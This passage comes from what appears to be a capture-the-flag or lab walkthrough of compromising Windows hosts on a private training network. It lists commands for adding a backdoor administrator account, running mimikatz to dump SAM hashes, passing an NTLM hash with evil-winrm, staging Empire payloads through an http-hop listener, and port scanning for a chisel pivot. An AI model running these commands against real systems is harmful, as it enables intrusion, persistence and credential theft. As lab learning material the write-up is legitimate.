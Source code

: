 Let's URL encode it and pass it through curl.
And we have a shell as nt authority\system!!

Let's create our own admin account 

1. net user n00bmast3r 1503 /add
2. net localgroup Administrators n00bmast3r /add
3. net localgroup "Remote Management Users" n00bmast3r /add

Check using the command `net user n00bmast3r`. Now we can login using evil-winrm or xfreerdp.

We can upload mimikatz. For that we have to share our directory (/usr/share/windows-resources) as a shared drive.

`xfreerdp /v:10.200.114.150 /u:n00bmast3r /p:1503 +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share`

Now we have mimikatz and open a cmd as admin. Running mimikatz works.

Let's give ourselves debug privilege. => privilege::debug
And integrity to SYSTEM level => token::elevate

Let's dump SAM local password hashes. => lsadump::sam


We can't crack admin's NTLM Hash but we can crack thomas's. `i<3ruby`. But we can use admin's hash to login uthrough Evil-WinRM. And we have Empire's port scanning script in our working directory and we can load it through Evil-Winrm.

We can set up Listeners, Stagers, Agents. And we have set up a http-hop listener in Starkiller/Empire CLI. now we have 3 files written to /tmp/http-hop. And we need to append it to the webpage. Now let's create a stager `multi/launch` and set teh listeners and copy the payload for future use. Let's zip the files from our attacking machine and send it to Target 1.

We now need to actually serve the files on the port we chose when generating the http_hop listener. Fortunately we already know that this server has PHP installed as it serves as the backend to the main website. This means that we can use the PHP development webserver to serve our files! 

```
php -S 0.0.0.0:PORT &>/dev/null & 
```

Next we can play with modules.

## Target 3: 10.200.114.100

1. evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.114.150 -s .
2. Invoke-Portscan -Hosts 10.200.114.100 -TopPorts 50

```
Hostname      : 10.200.114.100
alive         : True
openPorts     : {80, 3389}
closedPorts   : {}
filteredPorts : {445, 443, 5900, 993...}
finishTime    : 4/6/2021 10:22:20 AM
```

We have to pivot through chisel to access 10.200.114.100. And we have to start chisel server on gitserv and client on own machine. But before that we have to open a port in firewall to forward connection.
